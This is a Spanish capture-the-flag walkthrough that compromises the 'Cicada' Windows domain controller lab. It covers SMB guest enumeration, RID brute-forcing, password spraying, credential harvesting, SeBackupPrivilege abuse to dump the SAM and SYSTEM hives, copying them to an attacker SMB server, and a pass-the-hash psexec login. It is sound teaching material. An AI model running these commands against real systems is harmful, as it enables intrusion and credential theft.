

Comenzamos escaneando los puertos abiertos de la máquina objetivo.

``sudo nmap 10.10.11.35 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

Dado este output, podemos empezar a pensar que estamos ante un DC. No obstante, vamos a ver con exactitud qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.11.35 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,57500 -oN target -Pn``

De este output podemos extraer cositas, como que el dominio es cicada.htb y el nombre de la máquina es cicada-dc. 

Vamos a recolectar un poco más de información sobre la máquina.

``netexec smb 10.10.1.35``

Confirmamos la información que teníamos desde el output de nmap y que es un WS2022.

Podemos añadir esta información a nuestro /etc/hosts.

Probamos a enumerar los recursos disponibles por SMB para el usuario guest:

``netexec smb 10.10.11.35 -u 'guest' -p '' --shares``

Aparecen cosas interesantes y que no están por default, como el permiso de lectura para HR (HumanResources?).

Vamos a conectarnos por SMB para echarle un vistazo más a fondo.

``smbclient //10.10.11.35/HR -U 'guest'``

Vemos que existe un archivo llamado "Notice from HR.txt". Nos traemos el archivo a la máquina atacante para analizar su contenido.

Podemos visualizar cositas interesantes. Parece un mensaje default para nuevas contrataciones en la compañía Cicada. Lo primero (y más importante) que menciona es la importancia de cambiar la contraseña default 'Cicada$M6Corpb*@Lp#nZp!8'. Sin embargo, no tenemos el usuario al que está haciendo referencia.

Dado que con el usuario guest podemos enumerar los archivos compartidos, vamos a probar a utilizar --rid-brute para enumerar usuarios.

``netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute``

Bien. Nos saca output. Lo que vamos a hacer es redirigirlo todo a un archivo para hacer un tratamiento de los datos para quedarnos sólo con los nombres de usuario y generar un diccionario de usuarios.

``netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute > smbusers.txt``

Una vez tenemos todo el output en un archivo, hacemos el tratamiento de datos.

``cat smbusers.txt | grep 'SidTypeUser'| cut -f2 -d '\' | cut -f1 -d '(' | cut -f1 -d ' ' > users.txt``

Una vez tenemos el diccionario de usuarios, vamos a identificar si todos son usuarios válidos (que deberían):

``kerbrute userenum --dc 10.10.11.35 -d cicada.htb users.txt``

Genial. Los usuarios que tenemos son usuarios reales.

Ahora vamos a hacer uso de la técnica password spraying con la contraseña que hemos obtenido en el archivo compartido por SMB con los usuarios que tenemos:

``netexec smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success``

6)

Ojo, tenemos un [+] para el usuario michael.wrightson, por lo que tenemos credenciales válidas.

michael.wrightson : Cicada$M6Corpb*@Lp#nZp!8 

Sin embargo, si lanzamos netexec para winrm vemos que no tenemos un [+], por lo que este usuario no forma parte del grupo Remote Management Users y no podemos conectarnos usando evil-winrm. Seguimos enumerando.

Si nos conectamos por RPC para enumerar un poquito más:

``rpcclient -U 'michael.wrightson%Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35``

-> querydispinfo

Muy interesante. La descripción del usuario david.orelious es:

``Just in case I forget my password is aRt$Lp#7t*VQ!3``

Tenemos una posible contraseña del usuario david.orelious. Vamos a validar esta credencial con netexec:

``netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3'``

Son credenciales válidas, pero tampoco forma parte del grupo Remote Management Users (igual que antes, netexec para winrm no reporta pwn3d), por lo que seguimos sin poder conectarnos a la máquina víctima.

Sin embargo, si vemos lo que se está compartiendo en SMB para este usuario:

``netexec smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares``

El directorio DEV que se está compartiendo suena bastante interesante y tenemos permisos de lectura. Vamos a indagar.

``smbclient //10.10.11.35/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'``

Nos traemos a la máquina víctima ese Backup_script.ps1 y le echamos un vistazo:

Se encuentran claramente unas credenciales:
emily.oscars : Q!3@Lp#M6b*7t*Vt

Vamos a validarlas con netexec.

Son credenciales válidas. Y si las probamos para winRM:

Bingo, tenemos Pwn3d!
Por fin un usuario que forma parte del grupo Remote Management Users y que nos permite conectarnos.

Nos conectamos con evilwin-rm:

``evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'``

Estamos dentro de la máquina víctima como el usuario emily.oscars.

Dentro de C:\Users\emily.oscars\Desktop encontramos la flag de usuario:

# PRIVESC

``whoami /priv``

El usuario tiene el privilegio SeBackupPrivilege. Muy buenas noticias.

Nos creamos una carpeta temp en C:\

Para explotar este privilegio vamos a hacer una copia de SAM y SYSTEM que nos permitirá tener los hashes LM:NTLM de los demás usuarios.

``reg save hklm\sam c:\temp\sam``

``reg save hklm\system c:\temp\system``

Vamos a compartir ambos recursos con la máquina atacante, para ello:

- Abrimos smbserver en máquina atacante:
  
``impacket-smbserver -smb2support test .``

- Desde máquina víctima realizamos la copia de ambos recursos (sam y system) en el servidor SMB de la máquina atacante:
  
``copy sam \\10.10.14.16\test\sam``

``copy system \\10.10.14.16\test\system``

Una vez lo tenemos en máquina víctima, combinamos ambos archivos a través del uso de impacket-secretsdump:

``impacket-secretsdump -sam sam -system system LOCAL > sam.hashes``

Si observamos el contenido del archivo:

Estupendo. Tenemos un posible hash NTLM del usuario Administrator. Vamos a validarlo vía netexec realizando pass the hash:

``netexec smb 10.10.11.35 -u Administrator -H ':2b87e7c93a3e8a0ea4a581937016f341'``

Tenemos [+] y Pwn3d!, por lo que, no sólo son credenciales válidas, sino que podemos hacer uso directo de psexec para conectarnos a la máquina víctima:

``impacket-psexec administrator@10.10.11.35 -hashes ':2b87e7c93a3e8a0ea4a581937016f341'``

Podemos recogemr la flag de Administrador en C:\Users\Administrator\Desktop:

